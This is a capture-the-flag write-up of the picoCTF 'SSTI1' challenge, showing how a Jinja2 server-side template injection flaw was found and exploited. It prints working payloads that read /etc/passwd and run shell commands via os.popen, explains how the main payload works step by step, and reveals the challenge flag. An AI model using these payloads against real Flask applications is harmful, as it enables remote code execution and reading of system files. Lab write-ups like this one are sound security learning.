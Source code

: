 🔖 Challenge Info

    Challenge Name: SSTI1

    Category: Web Exploitation

    CTF Platform: picoCTF

    Date Solved: 2025-05-02

📜 Challenge Description

    I made a cool website where you can announce whatever you want! Try it out!
    Additional details will be available after launching your challenge instance.

🧪 Recon & Enumeration

    I started by inspecting the webpage, but I didn’t find anything useful at first glance.

    I checked the provided hint, which stated:

        “Server Side Template Injection”

    I paused for around 1–2 hours to study SSTI (Server-Side Template Injection) and how to detect and exploit it.

To test for SSTI, I used the following payload:

    {{7*7}}

When I submitted it in the input field, the output was:

    49

This confirmed the presence of SSTI.
🧨 Vulnerability Identified

    Vulnerability: Server-Side Template Injection

    Template Engine: Likely Jinja2 (based on the payload behavior)

💣 Exploitation Steps

    I researched common SSTI payloads for Jinja2.

    I found this payload, which tries to read the /etc/passwd file:

    {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}

However, this didn't work in my case, so I looked for simpler payloads.

I used this payload to execute the ls command:

    {{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

This returned:

    __pycache__ app.py flag requirements.txt

Then, I used the cat command to read the flag:

    {{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}

Output:

    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

🏁 Flag

    picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_ae48ad61}

Note : 

Step-by-Step Breakdown for the payload
1. config

    In Flask apps, config is often available in the template context.

    It’s an instance of the Config class, which holds configuration values.

2. config.__class__

    Accesses the class of the config object: <class 'flask.config.Config'>.

3. __init__

    Gets the __init__ method of the class, which is the constructor function.

4. __globals__

    Every Python function has a __globals__ attribute: a dictionary of all the global variables/modules accessible in that function.

    Since __init__ is a method, you can use it to access the global scope of the module where flask.config.Config is defined — including the os module if it was imported there.

5. ['os']

    Retrieves the os module from the __globals__ dictionary.

6. .popen('ls')

    Uses os.popen() to run the shell command ls (list directory contents).

    This returns a file-like object.

7. .read()

    Reads the output of the ls command from the file-like object.

8. {{ ... }}

    Jinja2 syntax to evaluate the expression and display the result in the HTML output.
